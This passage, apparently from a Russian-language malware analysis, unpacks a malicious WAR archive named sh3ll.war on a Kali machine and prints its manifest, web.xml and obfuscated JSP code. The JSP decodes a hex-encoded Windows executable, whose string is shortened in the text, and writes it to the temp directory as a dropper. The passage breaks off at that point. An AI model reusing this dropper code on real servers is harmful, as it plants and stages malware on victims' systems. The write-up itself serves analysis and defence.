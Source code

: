 ```text
root@kali:~# unzip sh3ll.war -d war
Archive:  sh3ll.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: wdwxbdssjol.jsp
```

### META-INF/MANIFEST.MF
Информация о версии:
```text
root@kali:~/war# cat META-INF/MANIFEST.MF
Manifest-Version: 1.0
Created-By: 1.6.0_17 (Sun Microsystems Inc.)
```

### WEB-INF/web.xml
Структура приложения очень простая: в данном случае просто определяется имя сервлета и jsp-файла:
```text
root@kali:~/war# cat WEB-INF/web.xml
<?xml version="1.0"?>
<!DOCTYPE web-app PUBLIC
"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
"http://java.sun.com/dtd/web-app_2_3.dtd">
<web-app>
<servlet>
<servlet-name>zkciskwfojaugri</servlet-name>
<jsp-file>/wdwxbdssjol.jsp</jsp-file>
</servlet>
</web-app>
```

### wdwxbdssjol.jsp
Наибольший интерес представляет код внутри jsp-файла (для читаемости сокращена очень длинная hex-строка переменной `egTwYyNyGe`):
```text
root@kali:~/war# cat wdwxbdssjol.jsp
```

```text
 1 <%@ page import="java.io.*" %>
 2 <%
```

```java
 3  String egTwYyNyGe = "4d5a90000300000004000000ffff0000b8000...";
 4  String fynDpwhPjEzrXc = System.getProperty("java.io.tmpdir") + "/OrBJOfpeKGojSNK";
 5
 6  if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1) {
 7    fynDpwhPjEzrXc = fynDpwhPjEzrXc.concat(".exe");
 8  }
 9
10  int ljxqJsOzbcZb = egTwYyNyGe.length();
11  byte[] xHRAgYBDYy = new byte[ljxqJsOzbcZb/2];
12  for (int hksgnQAupt = 0; hksgnQAupt < ljxqJsOzbcZb; hksgnQAupt += 2) {
13    xHRAgYBDYy[hksgnQAupt / 2] = (byte) ((Character.digit(egTwYyNyGe.charAt(hksgnQAupt), 16) << 4)
14                                              + Character.digit(egTwYyNyGe.charAt(hksgnQAupt+1), 16));
15  }
16
17  FileOutputStream FqAwiqfsveTbNJR = new FileOutputStream(fynDpwhPjEzrXc);
18  FqAwiqfsveTbNJR.write(xHRAgYBDYy);
19  FqAwiqfsveTbNJR.flush();
```